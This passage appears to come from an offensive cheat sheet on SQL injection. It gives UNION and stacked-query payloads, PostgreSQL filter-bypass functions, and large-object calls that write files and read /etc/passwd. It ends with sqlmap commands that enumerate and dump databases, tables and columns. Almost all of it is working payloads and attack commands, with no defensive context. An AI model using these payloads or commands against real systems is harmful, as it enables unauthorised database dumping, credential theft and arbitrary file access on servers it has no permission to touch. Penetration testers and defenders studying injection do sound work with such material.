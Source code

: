 
### Separator
```
" UNION SELECT * FROM users
" ; SELECT * FROM users
```

### Interesting postgres function

#### Filter bypass
```
query_to_xml('SELECT * FROM users', true, false, '')
ts_stat('SELECT * FROM users')::text
```

#### Arbitrary read / write
```
# Write
lo_from_bytea(31337, decode('bG9saXBvcAo=', 'base64'))
lo_export(31337, '/tmp/lolipop')

# Read
lo_export(31338, '/etc/passwd')
lo_get(31338)
```

## SQLmap
> SQLmap is a tool that automates the process of detecting and exploiting SQL injection.

[SQLmap Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

### Discovery
```bash
sqlmap -r req
# If you know info
sqlmap -r req --os <os> --dbms <type db> --technique <tech>
```

- [List OS](https://github.com/sqlmapproject/sqlmap/wiki/Usage#force-the-database-management-system-operating-system-name)
- [List DBMS](https://github.com/sqlmapproject/sqlmap/wiki/Usage#force-the-dbms)
- [List Techniques](https://github.com/sqlmapproject/sqlmap/wiki/Usage#sql-injection-techniques-to-test-for)

### Get DB
```bash
# List databases
sqlmap -r req --predict-output --dbs
# List Tables
sqlmap -r req --predict-output --tables -D db
# Dump Table
sqlmap -r req --predict-output --dump -D db -T table 
# Dump Column(s)
sqlmap -r req --predict-output --dump -D db -T table -C column
```
